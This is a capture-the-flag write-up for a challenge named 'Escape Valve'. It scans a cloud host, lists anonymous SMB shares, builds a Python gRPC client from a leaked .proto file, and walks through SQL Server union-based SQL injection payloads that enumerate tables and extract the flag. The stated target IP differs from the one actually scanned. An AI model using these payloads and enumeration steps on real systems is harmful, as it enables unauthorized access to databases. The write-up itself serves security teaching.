 # Escape Valve

## Description
* Target IP: 3.142.209.118


## Solution

We've given an IP address. Let's do a quick port scan.

```bash
nmap -p- -Pn 18.118.104.60 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-06 01:20 EDT
Nmap scan report for ec2-18-118-104-60.us-east-2.compute.amazonaws.com (18.118.104.60)
Host is up (0.16s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        (generic dns response: NOTIMP)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HEIST
|   NetBIOS_Domain_Name: HEIST
|   NetBIOS_Computer_Name: HEIST
|   DNS_Domain_Name: HEIST
|   DNS_Computer_Name: HEIST
|   Product_Version: 10.0.14393
|_  System_Time: 2022-05-06T05:21:11+00:00
| ssl-cert: Subject: commonName=HEIST
| Not valid before: 2022-04-28T11:49:55
|_Not valid after:  2022-10-28T11:49:55
|_ssl-date: 2022-05-06T05:21:51+00:00; -1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9000/tcp open  cslistener?
```

This reveals different open ports. Check if there are any open shares available. 

```bash
smbclient --no-pass -L \\18.118.104.60

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        tracker         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```

We see `Users` and `tracker` shares accessible. Let's view `Users`

```bash
smbclient --no-pass \\\\18.118.104.60\\Users 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Apr 30 08:54:06 2022
  ..                                 DR        0  Sat Apr 30 08:54:06 2022
  Default                           DHR        0  Fri Apr 29 05:03:34 2022
  desktop.ini                       AHS      174  Sat Jul 16 09:21:29 2016
  Public                             DR        0  Mon Sep 12 07:35:16 2016
```

Nothing interesting. Let's move on to `tracker`. 

```bash
smbclient \\\\18.118.104.60\\tracker --no-pass
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr 30 10:06:04 2022
  ..                                  D        0  Sat Apr 30 10:06:04 2022
  juliaJEA.psrc                       A      316  Sat Apr 30 09:37:34 2022
  tracker.proto                       A      205  Mon May  2 11:46:12 2022

                15727871 blocks of size 4096. 7189919 blocks available
```

We see two files which are interesting. Download them.

```bash
smb: \> prompt
smb: \> mget *
getting file \juliaJEA.psrc of size 316 as juliaJEA.psrc (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \tracker.proto of size 205 as tracker.proto (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

**juliaJEA.psrc**

```powershell
@{
GUID = 'dac1bb0d-fe36-439d-a7ea-dab6c988bb6d'
Author = 'julia'
CompanyName = 'HeistCorp'
Copyright = '(c) 2022 Administrator. All rights reserved.'
}
```

**tracker.proto**

```protobuf
# Compiled with grpcio-tools 1.29.0 
syntax = "proto3";

service Tracker {
        rpc Search(Cases) returns (Data) {}
}
message Cases {
        string id = 1;
}
message Data {
        string info = 1;
}
```

`psrc` is a PowerShell Role Capability file. We can read about it from [docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-psrolecapabilityfile?view=powershell-7.2). `.proto` is a Protocol Buffers (protobuf) format.  It has a service defined `Tracker` with method `Search`. The `Search` method accepts `Cases` as an input parameter and returns `Data`. The format matches gRPC syntax. Which is well explained [here](https://grpc.io/docs/languages/python/basics/). gRPC is an open source framework which helps in building scalable and fast apis. 

gRPC has client and server model where client defines a stub to interact with the server and server implements a RPC interface and runs a gRPC server to handle client calls. 

![](assets/diag.svg)

gRPC supports multiple languages. The writeup uses Python language to create client but any language can be used for this task. As proto file highlights the version to be used for `grpcio-tools` as `1.29.0` we gonna use same version while compiling the proto file. 

```bash
pip3 install grpcio-tools=='1.29.0'
```

We remove first commented line and can try to compile it 

```bash
python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. tracker.proto
```

This generates two code files `tracker_pb2_grpc.py` and `tracker_pb2.py` . We can start writing the client. 

```python
import sys
import grpc
import tracker_pb2
import tracker_pb2_grpc

channel = grpc.insecure_channel('18.118.104.60:9000')
stub = tracker_pb2_grpc.TrackerStub(channel)
content = tracker_pb2.Cases(id=sys.argv[1])
response = stub.Search(content)
print(response)
```

The above code imports required packages and creates a stub with grpc channel. This then sends a request with data as `1` and prints the response. 

```bash
python3 client.py 1
info: "{\"case\": \"heist     \", \"name\": \"sergio    \"}"
```

This works and we receive response `info` showing case details. Sending incremental id as input fetches another case details. 

```bash
python3 client.py 2
info: "{\"case\": \"heist     \", \"name\": \"oliveira  \"}"
python3 client.py 3
info: "{\"case\": \"heist     \", \"name\": \"agata     \"}"
python3 client.py 4
info: "Failed to find case details"
```

This could be a search feature. We can try testing for SQL Injection. 

```bash
python3 client.py "1'"
Traceback (most recent call last):
...
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "Exception calling application: ('42000', "[42000] [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed quotation mark after the character string ''.")"
```

Looks like it is vulnerable to SQL injection. The error message also highlights the target SQL Server details. 

```
[Microsoft][ODBC SQL Server Driver][SQL Server]
```

Let's enumerate the columns quick.

```bash
python3 client.py "1 order by 4"
Traceback (most recent call last):
...
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "Exception calling application: ('42000', '[42000] [Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.')"
```

There are 3 columns that are selected in backend SQL query. 

```bash
python3 client.py "-1 union select 1,2,3"
info: "{\"case\": 3, \"name\": 2}"
```

Current user role. 

```bash
python3 client.py "-1 union select 1,2,current_user"
info: "{\"case\": \"dbo\", \"name\": 2}"
```

Check if user role has `sysadmin` role. 

```bash
python3 client.py "-1 union select 1,2,is_srvrolemember('sysadmin','dbo')"
info: "{\"case\": null, \"name\": 2}"
```

We don't have sysadmin privileges. Let's list tables. 

```bash
python3 client.py "-1 union select 1,2,(select top 1 table_name from information_schema.columns order by table_name asc)"
info: "{\"case\": \"cases\", \"name\": 2}"
```

Let's view more info by ordering table based on descending order. 

```bash
python3 client.py "-1 union select 1,2,(select top 1 table_name from information_schema.columns order by table_name desc)"
info: "{\"case\": \"flag_d3649\", \"name\": 2}"
```

We've a `flag_d3649` table. Let's view columns for this table. 

```bash
python3 client.py "-1 union select 1,2,(select top 1 column_name from information_schema.columns order by table_name desc)"
info: "{\"case\": \"flag\", \"name\": 2}"
```

We can view the flag. 

```bash
python3 client.py "-1 union select 1,2,flag from flag_d3649"
info: "{\"case\": \"ACVCTF{pr0to_1nj3ct10ns_4r3_1337}\", \"name\": 2}"
```

